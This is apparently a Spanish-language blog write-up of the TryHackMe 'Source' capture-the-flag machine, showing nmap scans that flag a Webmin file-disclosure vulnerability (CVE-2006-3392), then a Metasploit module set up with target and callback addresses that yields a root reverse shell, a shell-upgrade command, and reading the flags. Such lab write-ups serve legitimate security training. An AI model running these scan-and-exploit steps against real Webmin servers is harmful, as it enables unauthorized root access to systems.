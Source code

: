 ```yaml
---
layout: post
title: Tryhackme - Soerce
date: 2022-09-04
modified: 2022-09-04
description: resolución de la maquina source de la plataforma tryhackme.
tag:
 - thyhackme
 - ctf
---
```


Iniciamos con un escaneo de nmap. 

	nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn "ip"  -oG ports

El cual nos regresa que hay dos puertos abiertos, el 22 y el 10000.

	# Nmap 7.92 scan initiated Sun Sep  4 15:30:41 2022 as: nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn -oG ports 10.10.144.128
	 Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
	Host: 10.10.144.128 ()  Status: Up
	Host: 10.10.144.128 ()  Ports: 22/open/tcp//ssh///, 10000/open/tcp//snet-sensor-mgmt///
	 Nmap done at Sun Sep  4 15:30:59 2022 -- 1 IP address (1 host up) scanned in 17.67 seconds

El puerto 22 como nmap nos indica pertenece a ssh, pero lo dejaremos de lado y nos concentraremos solo en puerto 10000. Si abrimos el navegador vamos y ponemos la ip con el puerto nos mostrara una pantalla de login.

![imagen 1](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-source/zero-2022-09-04-15-34-49.png)

Ahora sabemos que es un login de webmin. Con ayuda de nmap iniciaremos de nuevo un scaneo, pero esta vez en busca de posibles vulnerabilidades.

	nmap -p22,10000 --script "vuln" -oN vuln 10.10.144.128

Lo cual nos arrojara lo siguiente:

	Nmap 7.92 scan initiated Sun Sep  4 15:31:43 2022 as: nmap -p22,10000 --script vuln -oN vuln 10.10.144.128
	Nmap scan report for 10.10.144.128
	Host is up (0.22s latency).

	PORT      STATE SERVICE
	22/tcp    open  ssh
	10000/tcp open  snet-sensor-mgmt
	| http-vuln-cve2006-3392:
	|   VULNERABLE:
	|   Webmin File Disclosure
	|     State: VULNERABLE (Exploitable)
	|     IDs:  CVE:CVE-2006-3392
	|       Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML.
	|       This allows arbitrary files to be read, without requiring authentication, using "..%01" sequences
	|       to bypass the removal of "../" directory traversal sequences.
	|
	|     Disclosure date: 2006-06-29
	|     References:
	|       http://www.exploit-db.com/exploits/1997/
	|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
	|_      http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure

	 Nmap done at Sun Sep  4 15:32:16 2022 -- 1 IP address (1 host up) scanned in 32.51 seconds

Nmap nos retorna que el servicio webmin es vulnerable. Mas en especifico la versión 1.290. Al ser una versión vieja existen muchos exploits actualmente, por lo que solo hay que buscar en metasploit.

![imagen 2](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-source/zero-2022-09-04-15-36-21.png)

En este caso vamos a usar el numero 6, para seleccionarlo hacemos un `use 6`En este caso solo hay que rellenar algunos parámetros.

![imagen 3](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-source/zero-2022-09-04-15-36-59.png)

Parámetros necesarios: 
- RHOSTS: "IP"
- RPORT: 10000
- SSL: true
- LHOST: "La ip de nuestro vpn"
- LPORT:"Lo podemos dejar por defecto si queremos"

Ahora al rellenar todo solo ejecutamos con un `run` y listo.


![imagen 4](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-source/zero-2022-09-04-15-39-27.png)

Al principio pude ser que no veamos nada, pero si hacemos un "ls" por ejemplo, nos regresa lo que hay en la carpeta, Pero aunque ya tengamos acceso nos daremos cuenta que no podemos movernos de esa carpeta.

Para arreglar eso tendremos que arreglar un poco la shell, aunque es baste fácil.

	script /dev/null -c bash

Con esto ya podremos moverlos libremente. Y listo, si hacemos `whoami` veremos que estamos como root, ahora solo queda leer las flag que están en /root y /home/dark.

![imagen 5](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-source/zero-2022-09-04-15-40-11.png)

